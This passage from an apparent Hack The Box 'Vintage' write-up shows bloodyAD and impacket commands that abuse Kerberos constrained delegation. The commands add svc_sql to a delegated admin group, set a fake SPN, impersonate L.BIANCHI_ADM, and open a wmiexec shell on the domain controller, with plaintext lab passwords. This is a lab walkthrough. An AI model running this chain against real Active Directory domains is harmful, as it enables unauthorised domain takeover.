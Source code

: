 ```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "svc_sql"
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "svc_sql" servicePrincipalName -v "cifs/fake"
```

Get an entry for this SVC
```bash
impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb
```

And we export the ticket again

```bash
export KRB5CCNAME=svc_sql.ccache
```

Now, we impersonate the user **L.BIANCHI_ADM** to request a service ticket for the cifs/dc01.vintage.htb service. After successfully obtaining the ticket, we can use it to access the service.

```bash
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
```

And we export it again

```bash
export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

Now that we have L.BIANCHI's ticket, we can run commands directly through wmiexec

```bash
impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
```

```bash
❯ impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is B8C0-0CD3

 Directory of C:\

05/08/2021  10:20 AM    <DIR>          PerfLogs
11/14/2024  04:45 PM    <DIR>          Program Files
06/05/2024  12:11 PM    <DIR>          Program Files (x86)
11/14/2024  07:47 PM    <DIR>          Users
03/07/2025  03:42 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)   5,677,051,904 bytes free

C:\>whoami
vintage\l.bianchi_adm
C:\Users\Administrator\Desktop>type root.txt
a0aac1675f2b2##################
```

And now we have both flags!